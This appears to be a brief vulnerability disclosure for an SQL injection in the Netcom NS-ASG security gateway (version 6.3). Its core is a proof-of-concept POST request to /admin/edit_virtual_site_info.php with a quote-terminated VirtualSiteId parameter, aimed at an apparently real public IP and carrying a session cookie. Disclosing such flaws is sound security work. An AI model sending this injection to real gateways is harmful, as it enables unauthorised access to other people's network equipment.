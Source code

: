 <img width="606" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/e15ae814-8d90-4f4a-925d-a6fddb087c30">Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3 Vulnerability Path ： /admin/edit_virtual_site_info.php

poc:
```
POST /admin/edit_virtual_site_info.php HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=bed72fc51349b92a0462eecbc5ff96d8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

&action=restitute&VirtualSiteId=1'
```
<img width="632" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/73a50935-16fa-4556-8379-e53053e35c6b">

<img width="602" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/fc792a62-3e89-446e-adb7-df94443b4cd1">


